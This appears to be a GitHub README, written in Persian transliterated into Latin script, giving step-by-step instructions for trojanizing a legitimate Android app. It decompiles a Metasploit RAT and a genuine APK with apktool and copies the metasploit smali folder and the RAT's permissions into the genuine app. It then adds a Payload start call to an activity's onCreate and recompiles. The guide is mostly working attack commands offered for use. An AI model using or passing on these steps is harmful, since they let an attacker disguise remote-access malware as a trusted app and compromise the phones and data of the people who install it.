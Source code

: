 ## Decompile and Recompile An android APK 🧰

Ghasd darim yek app ra decompile karde va pas az tazrigh metasploit dobare recompile konim 

$ bad az sakht metasploit tebgh ravesh gofte shode dar `Android-MetaSploit-L1` 2 kar zer ra bayad anjam dahim

```bash
apktool d /home/kali/Dekstop/rat.apk
```

```bash
apktool d /home/kali/Dekstop/app.apk
```

har 2 app ra decompile mikonim


## Install apktool ⬇️

abzar "apktool" b sorat pishfarz dar kali linux nasb nist va b shekl zer eghdam b nasb namaed

```bash
sudo apt install apktool
```

$ bar roye joft poshe haye decompile shode app ha ras click karde va gozine `open as Root` ra mizanim ta baz shavand

### 2 kar ra bayad anjam dahim

1. **Jaygozine metasploit** Poshe "metasploit" ra az app alode dar address `smali > com > metasploit` dar hamin address dar app asli jaygozin mikonim
 ``` 
2. **Edit AndroidManifest.xml** bar roye har 2 file `AndroidManifext.xml` click rast karde va `Open With "MousePad" ra mizanim va karhaye zer ra anjam midahim

- copy ebeart ro b ro az "rat" b "app"        <uses-permission android:""/>
- search `activity android` va dar hamon khat ebarat `android:name=` ro b rosh ye hamchin chizi hast : `com.google.android.gms.common.api.GoogleApiActivity`
- `com.google.android.gms.common.api.GoogleApiActivity` en masir ro dar "app asli" peyda mikonm
example : Poshe smali > Poshe com > Poshe google > Poshe android > Poshe gms > Poshe common > ..... > Akharesh b ye "file" mirsim 
- Dakhel file migardim donbal ebarat `onCreate(Landroid/os/Bundle;)v` Agar chand ta bood , On k avvalesh `method` Dare
- Ye Enter mizanim va khat badi en `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V` ro ezafe mikonim

```
Dige ba "rat" kari nadarim va "app asli" ro Recompile mikonim va Tamam ....

```bash
apktool b /home/kali/Dekstop/app.apk
```
